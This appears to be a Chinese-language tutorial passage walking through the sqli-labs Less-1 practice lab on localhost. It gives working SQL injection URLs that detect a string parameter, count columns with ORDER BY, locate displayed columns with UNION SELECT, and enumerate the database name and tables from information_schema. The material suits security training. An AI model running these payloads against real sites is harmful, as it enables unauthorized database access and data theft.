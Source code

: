 在看不到后端代码的情况下可以尝试：`http://127.0.0.1/sqli-labs/Less-1/?id=1'--+`

如果是数字型的sql语句会变成：`SELECT * FROM users WHERE id=1'--+ LIMIT 0,1`，`--+`是注释符，所以最终的sql语句会变成`SELECT * FROM users WHERE id=1'`，多个了`'`，页面还是报错

如果是字符型的sql语句会变成：`SELECT * FROM users WHERE id='1'--+' LIMIT 0,1` => `SELECT * FROM users WHERE id='1'`，页面变回正常

![](https://pic.imgdb.cn/item/64cf02561ddac507cc683048.jpg)

由上图可以判断是字符型，接下来的步骤必须在要拼接的sql语句前加上`'`、后面加上`--+`

例如：`http://127.0.0.1/sqli-labs/Less-1/?id=1'order by 3--+`

​	

### 判断有哪些字段回显到页面的哪些地方

#### 判断该表有几个字段

`order by`：把查询的数据按第n个字段排序。可以用它来判断`users`表一共有多少字段

`http://127.0.0.1/sqli-labs/Less-1/?id=1'order by 3--+`页面正常回显，说明可以按第3个字段排序，也就是至少有3个字段

`http://127.0.0.1/sqli-labs/Less-1/?id=1'order by 4--+`页面报错，说明无法按第4个字段排序，由此可以得出该表只有3个字段

#### 判断页面有哪些回显点

首先先让页面无回显，例如`?id=-1`(没有id=-1的数据)

![](https://pic.imgdb.cn/item/64cf9f411ddac507cce5006b.jpg)

使用联合查询`union select `：`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,3--+`

![](https://pic.imgdb.cn/item/64cfa0351ddac507cce83831.jpg)

`union`的特性：左右两边查询语句的字段数必须相同，这也就是为什么上一步要去推测`users`表有几个字段

由上图可以得出页面有两个回显点，分别是`2`和`3`的位置

​	

### 查询当前网站的数据库

随便选一个回显点来查询(2和3选一个)，例如`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,database(),3--+`

![](https://pic.imgdb.cn/item/64cfa1431ddac507ccebbc93.jpg)

得到当前数据库名为`security`

​	

### 查询当前数据库下有哪些表

`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="security"--+`

![](https://pic.imgdb.cn/item/64cfa37d1ddac507ccf2a9ad.jpg)
